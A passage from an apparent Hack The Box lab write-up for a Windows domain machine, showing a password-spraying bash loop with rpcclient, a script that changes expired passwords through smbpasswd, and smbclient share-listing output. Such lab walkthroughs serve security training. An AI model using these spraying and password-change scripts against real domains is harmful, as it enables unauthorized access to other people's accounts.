 ```bash

    printf "[+] %-13s: " "$USER"

    if rpcclient -U"$DOMAIN/$USER%$PASS" $HOST -c "exit" 2>/dev/null; then
        echo "Password is $PASS"
        die
    fi
}

export -f check

parallel -q check :::: $USER ::: $PASS
```

The idea is simple. I've identified `Fabricorp01` as a potential password candidate for spraying. I'm going to try this password for every username found above and see what gives.

{% include image.html image_alt="04dbb1bf.png" image_src="/ea197248-1338-4df2-8ef1-4492ba8ce029/04dbb1bf.png" %}

Looks like a few of them need to change password soon!

### Changing password with `smbpasswd`

We can automate changing of password with a shell script that's based on `smbpasswd`.

```bash
#!/bin/bash

HOST=10.10.10.193
USER=$1
OLDPASS=Fabricorp01
NEWPASS=$2

(echo $OLDPASS; echo $NEWPASS; echo $NEWPASS) \
| smbpasswd -r $HOST -U $USER \
| grep -Ev '^(Old|New|Retype)'
```

{% include image.html image_alt="4c286037.png" image_src="/ea197248-1338-4df2-8ef1-4492ba8ce029/4c286037.png" %}

### SMB Enumeration 2

I noticed that the password expires faster than I can type a command so I included SMB enumeration right after I changed password.

```
# ./changepw.sh bhult 'SLKDJ@bc123#' && smbclient -U'bhult%SLKDJ@bc123#' -I 10.10.10.193 -L FUSE
Password changed for user bhult on 10.10.10.193.

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```


[1]: https://www.hackthebox.eu/home/machines/profile/256
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/